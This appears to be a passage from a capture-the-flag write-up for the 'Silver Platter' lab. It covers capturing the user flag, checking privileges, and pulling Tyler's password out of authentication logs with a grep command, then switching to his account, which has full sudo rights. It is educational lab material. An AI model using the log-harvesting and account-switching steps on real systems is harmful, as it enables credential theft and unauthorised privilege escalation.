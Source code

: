 ```
```
### Capturing the User Flag
Navigating to Tim's home directory, we find the user.txt flag:
```
tim@silver-platter:~$ cat user.txt
THM{c4c***************************b}
```


## Post-Exploitation
Checking User Privileges

Listing home directories reveals two users:
```
tim@silver-platter:~$ ls /home/
tim  tyler
```
Trying to access Tyler's home directory:

```
tim@silver-platter:~$ cd /home/tyler/
-bash: cd: /home/tyler/: Permission denied
```
We lack permissions to access Tyler's directory.

##### Checking Sudo Privileges
```
tim@silver-platter:~$ sudo -l
[sudo] password for tim: 
Sorry, user tim may not run sudo on silver-platter.
```
Since `tim` is not a sudo user, we need an alternative method to escalate privileges.
#### Credential Discovery
Checking authentication logs for stored credentials:
```
cat /var/log/auth* | grep -a -i pass
```
We find Tyler’s password stored in logs!

![image](https://github.com/user-attachments/assets/26ae0276-9d51-427d-8220-e5a0c77d05ce)



Switching to Tyler
Using the discovered credentials, we switch to Tyler's account:
```
tim@silver-platter:~$ su tyler
Password: 
tyler@silver-platter:/home/tim$ 
```
Now, let's check if Tyler has sudo privileges:

```
tyler@silver-platter:/home/tim$ sudo -l
Matching Defaults entries for tyler on silver-platter:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User tyler may run the following commands on silver-platter:
    (ALL : ALL) ALL 
```
Since Tyler can execute all commands as root, we can escalate privileges.
